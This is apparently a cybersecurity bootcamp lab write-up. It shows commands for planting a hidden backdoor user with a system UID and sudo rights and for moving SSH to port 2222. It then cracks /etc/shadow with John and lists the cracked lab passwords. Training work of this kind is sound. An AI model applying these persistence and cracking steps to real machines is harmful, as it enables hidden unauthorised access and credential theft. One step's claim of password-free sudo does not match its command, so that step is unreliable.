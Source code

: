 ## Advanced Bash - Owning the System



**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd sysd `

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 28 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 28 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `usermod -aG sudo sysd`

6. Test that `sudo` access works without your password:

    ```
    sudo -l
    sudo -lU sysd
    sudo -v
    sudo adduser frank
    sudo deluser frank
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ! [sshd_config](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/06.%20Bash%20Scripting%20and%20Programming/sshd_config.png)
    


**Step 3: Testing The Configuration Update**
1. Restart the SSH service:
    - sudo systemctl restart ssh

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su root

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su root
    - john /etc/shadow

    • sysadmin:passw0rd:18387:0:99999:7:::
    • student:Goodluck!:18387:0:99999:7:::
    • mitnik:trustno1:18387:0:99999:7:::
    • babbage:freedom:18387:0:99999:7:::
    • lovelace:dragon:18387:0:99999:7:::
    • stallman:computer:18387:0:99999:7:::
    • turing:lakers:18387:0:99999:7:::
    • sysd:password:18841:0:99999:7:::
---
